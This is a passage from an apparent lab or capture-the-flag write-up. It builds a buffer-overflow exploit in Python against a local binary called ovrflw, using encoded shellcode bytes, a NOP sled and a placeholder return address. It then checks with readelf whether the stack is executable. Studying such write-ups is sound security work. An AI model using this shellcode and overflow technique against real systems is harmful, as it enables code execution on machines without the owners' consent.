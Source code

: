 I then updated my exploit to include the exploit in the buffer:

```python
import struct
import sys 

shellcode = b"" 
shellcode += b"\xdb\xd9\xd9\x74\x24\xf4\x5b\x29\xc9\xb1\x0c\xba\x17"
shellcode += b"\xa5\x80\x35\x31\x53\x18\x03\x53\x18\x83\xeb\xeb\x47"
shellcode += b"\x75\x5f\x18\xd0\xef\xf2\x78\x88\x22\x90\x0d\xaf\x55"
shellcode += b"\x79\x7e\x58\xa6\xed\xaf\xfa\xcf\x83\x26\x19\x5d\xb4"
shellcode += b"\x32\xde\x62\x44\x6d\xbc\x0b\x2a\x5e\x22\xad\xc1\xc8"
shellcode += b"\xa2\x7a\x75\x81\x42\x49\xf9"

buf_len = 112 
eip = struct.pack("<I", 0xdeadbeef)
buf = b"\x90" * (buf_len - len(shellcode)) + shellcode
buf += eip 

sys.stdout.buffer.write(buf)
```

Before proceeding, I wanted to check whether the stack was executable to verify whether I could execute shellcode directly from the buffer I used to overflow the stack:

```
$ readelf -l /usr/local/bin/ovrflw

Elf file type is EXEC (Executable file)
Entry point 0x8048380
There are 9 program headers, starting at offset 52

Program Headers:
  Type           Offset   VirtAddr   PhysAddr   FileSiz MemSiz  Flg Align
  PHDR           0x000034 0x08048034 0x08048034 0x00120 0x00120 R E 0x4
  INTERP         0x000154 0x08048154 0x08048154 0x00013 0x00013 R   0x1
      [Requesting program interpreter: /lib/ld-linux.so.2]
  LOAD           0x000000 0x08048000 0x08048000 0x00658 0x00658 R E 0x1000
  LOAD           0x000f08 0x08049f08 0x08049f08 0x00120 0x00124 RW  0x1000
  DYNAMIC        0x000f14 0x08049f14 0x08049f14 0x000e8 0x000e8 RW  0x4
  NOTE           0x000168 0x08048168 0x08048168 0x00044 0x00044 R   0x4
  GNU_EH_FRAME   0x00057c 0x0804857c 0x0804857c 0x0002c 0x0002c R   0x4
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
  GNU_RELRO      0x000f08 0x08049f08 0x08049f08 0x000f8 0x000f8 R   0x1

 Section to Segment mapping:
  Segment Sections...
   00     
   01     .interp 
   02     .interp .note.ABI-tag .note.gnu.build-id .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rel.dyn .rel.plt .init .plt .text .fini .rodata .eh_frame_hdr .eh_frame 
   03     .init_array .fini_array .jcr .dynamic .got .got.plt .data .bss 
   04     .dynamic 
   05     .note.ABI-tag .note.gnu.build-id 
   06     .eh_frame_hdr 
   07     
   08     .init_array .fini_array .jcr .dynamic .got
```
